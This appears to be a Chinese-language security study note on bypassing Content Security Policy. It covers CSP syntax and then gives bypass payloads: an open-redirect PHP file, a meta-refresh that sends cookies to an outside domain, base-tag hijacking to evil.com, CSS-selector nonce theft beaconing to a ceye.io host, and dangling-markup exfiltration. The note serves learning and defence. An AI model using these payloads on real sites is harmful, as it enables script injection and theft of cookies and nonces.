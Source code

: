 # bypass csp

内容安全策略  ([CSP](https://developer.mozilla.org/zh-CN/docs/Glossary/CSP)) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。 

## csp语法

CSP的特点就是他是在浏览器层面做的防护，是和同源策略同一级别，除非浏览器本身出现漏洞，否则不可能从机制上绕过。

CSP只允许被认可的JS块、JS文件、CSS等解析，只允许向指定的域发起请求。

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy

[`default-src`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) :在其他资源类型没有符合自己的策略时应用该策略(有关完整列表查看[`default-src`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) )

![img](https://images.seebug.org/content/images/2017/10/7b7e1d4c-9d9a-4bd0-ae6d-f266871fa300.png-w331s)

![img](https://images.seebug.org/content/images/2017/10/c5a45eca-7e0c-4ebf-8143-712e4594f2fd.png-w331s)



###  strict-dynamic

` script-src 'nonce-r4nd0m' 'strict-dynamic'; object-src 'none'; base-uri 'none';  `

script-src 中 strict-dynamic 中的作用:

- 丢弃白名单
- 允许执行js生成的js代码，例如：document.createElement('script') 
- 使  nonce-only CSPs  可以工作

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200520164256.png)



### 一些注意点

`https://cdn.com/*`只能匹配`https://cdn.com/*`



## bypass

### csp策略不完全导致的绕过





### 利用302跳转

` Content-Security-Policy: default-src 'self '; script-src http://127.0.0.1/static/`

如果可信域内存在一个可控的重定向文件，那么CSP的目录限制就可以被绕过。 

假设static目录下存在一个302文件

```
Static/302.php

<?php Header("location: ".$_GET['url'])?>
```

像刚才一样，上传一个test.jpg 然后通过302.php跳转到upload目录加载js就可以成功执行

```
<script src="static/302.php?url=upload/test.jpg">
```



### 绕过域限制的一些tricks

`Content-Security-Policy: default-src 'self'; script-src 'self'`

```html
<link rel="prefetch" href="http://lorexxar.cn"> (H5预加载)(only chrome)
<link rel="dns-prefetch" href="http://lorexxar.cn"> （DNS预加载）
<meta http-equiv="refresh" content="5;http://lorexxar.cn?c=[cookie]">
```



### 利用可信域的资源绕过

很多网站都会将google,baidu......添加到可信域里面，而如果里面存在可控的输出我们便可以绕过csp

常用可控jsonp: https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/jsonp.js#L32-L180 



### bypass nonce

#### 利用`<base>`标签

Specify a default URL and a default target for all links on a page:

```html
<head>
  <base href="https://www.evil.com/" target="_blank">
</head>

<body>
<img src="images/stickman.gif" width="24" height="39" alt="Stickman"><!-- load  https://www.evil.com/images/stickman.gif -->
<a href="tags/tag_base.asp">HTML base Tag</a>
</body><!-- point to https://www.evil.com/tags/tag_base.asp -->
```

因此我们可以设置个`<base>`标签，将相对路径导向恶意的网站

```html
<!-- XSS -->
<base href="https://evil.com/">
<!-- End XSS -->
…
<script src="foo/bar.js" nonce="r4nd0m"></script>
```



https://evil.com/foo/bar.js

```
alert(0000);
```

成功执行



防御方式：

在csp中添加：base-uri 'none' 或 base-uri 'self'

#### 利用chrome bug 来修改script src的值

```html
<!-- XSS -->
<svg><set href="victim" attributeName="href" to="data:,alert(1)" />
<!-- End XSS -->
…
<script id="victim" src="foo.js" nonce="r4nd0m"></script>
```

SVG中的set标签可以修改其他标签的属性值

该漏洞在chrome58中修复

#### steal nonce

#####  via CSS selectors



```html
<!-- XSS -->
<style>
script { display: block }
script[nonce^="a"]:after { content: url("record?a") }
script[nonce^="b"]:after { content: url("record?b") }
</style>
<!-- End XSS -->
<script src="foo/bar.js" nonce="r4nd0m"></script>
```

可以联合其他标签来发出请求，如`<a>` ...

```html
<style>script[nonce^="0"]~a{background:url("http://y5pwcd.ceye.io/success")}</style>
```

相关的css 语法

 https://developer.mozilla.org/zh-CN/docs/Web/CSS/CSS_Selectors 

 https://developer.mozilla.org/zh-CN/docs/Web/CSS/Attribute_selectors 





#####  via dangling markup attack

破坏原有的结构，将script标签变成文本，诱使用户点击

```html
<!-- XSS --> <form method="post" action="//evil.com/form">
<input type="submit" value="click"><textarea name="nonce">
<!-- End XSS -->
<script src="foo/bar.js" nonce="r4nd0m"></script>
```



###  JS framework-based CSP Bypasses

利用低版本JQuery等js框架漏洞来绕过csp



## 绕过实例





## 一些工具

检查csp: https://csp-evaluator.withgoogle.com/ 

常用可控jsonp: https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/jsonp.js#L32-L180 

[csp mitigator](https://chrome.google.com/webstore/detail/csp-mitigator/gijlobangojajlbodabkpjpheeeokhfa) :一个csp调试工具





## 参考文章

 [Spagnuolo_Hack In Bo - So we broke all CSPs... You won't guess what happened next!](https://www.hackinbo.it/slides/1494231338_Spagnuolo_Hack In Bo - So we broke all CSPs... You won't guess what happened next!.pdf) 

[前端防御从入门到弃坑--CSP变迁](https://paper.seebug.org/423/)







## 收藏





Bypassing CSP script nonces via the browser cache： http://sebastian-lekies.de/csp/attacker.php

 https://hurricane618.me/2018/06/30/csp-bypass-summary/ 



 https://www.netsparker.com/blog/web-security/private-data-stolen-exploiting-css-injection/ 

 https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense 

 https://storage.googleapis.com/pub-tools-public-publication-data/pdf/45542.pdf 